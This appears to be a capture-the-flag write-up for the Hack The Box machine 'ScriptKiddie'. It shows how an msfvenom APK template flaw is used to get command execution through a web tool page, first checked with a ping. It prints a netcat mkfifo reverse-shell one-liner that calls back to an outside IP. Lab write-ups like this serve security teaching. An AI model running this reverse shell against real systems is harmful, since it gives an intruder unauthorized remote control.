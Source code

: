 What immidately caught my eye was the fact that we can upload a file with the MSFvenom payload generation. I figured at this point we would either be able to get some of these tools to run some extra commands that they were not supposed to run, or do something with this file upload. After messing around with the tools and getting nowhere I turned my attention to MSFvenom templates. A quick Google for `msfvenom template exploit` is all we need to find what we are looking for. A few links down in the search we come across a GitHub page (link in the references section) explaining how the exploit works as well as some proof of concept code. The gist of it is that you can feed MSFvenom a special template file that will execute commands on the system building the payload which obviously is not supposed to happen.

# Remote command execution

Looking at the proof of concept code, all we need to do is modify the payload. Before trying to do anything advanced I like to start of with a simple ping to make sure things are working well. Simply change the payload to `ping -c 1 our_ip_here` and run the script to generate our file.

![](/images/HTB/ScriptKiddie/payload_generate.png)

The script is nice enough to tell us that the LHOST is supposed to be `127.0.0.1` so we can enter that back on the tools page. We can select the OS as 'Android' since we are generating an apk file and upload our generated apk file as the template. Back on our host machine we can run the command `tcpdump -i tun0 icmp` to listen for any icmp traffic on our tun0 interface. Click generate on the webpage and we see that we get a ping back!

![](/images/HTB/ScriptKiddie/ping_success.png)


## Getting a shell

So now that we know we have command execution lets see if we can get a shell back. I'm going to change the payload to be `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 6868 >/tmp/f` since I usually have better luck with this giving me a callback. Run the script and... oh my, an error. 
